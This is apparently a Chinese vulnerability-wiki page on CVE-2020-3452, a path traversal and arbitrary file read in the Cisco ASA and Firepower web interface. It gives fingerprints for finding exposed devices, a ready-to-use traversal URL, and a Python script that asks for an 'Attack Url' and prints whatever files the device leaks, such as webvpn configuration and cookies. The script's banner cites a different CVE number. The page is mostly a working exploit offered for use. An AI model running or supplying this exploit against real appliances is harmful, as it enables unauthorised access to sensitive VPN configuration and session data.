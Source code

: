# 

# Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 漏洞影响

- Cisco ASA设备：

![](./images/202202162120091.png)



- Cisco FTD设备：



![](./images/202202162120403.png)

## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

**POC如下**

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件

![](./images/202202162120622.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Cisco                                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vnln_url = target_url + "/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
    }

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    response = requests.get(url=vnln_url, headers=headers, verify=False ,timeout=20)
    if "Bad Request" in response.text:
            print("\033[31m[x] 漏洞已修复 \033[0m")
    else:
            print("\033[32m[o] 存在漏洞，响应为\n\033[0m",response.text)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202162120935.png)
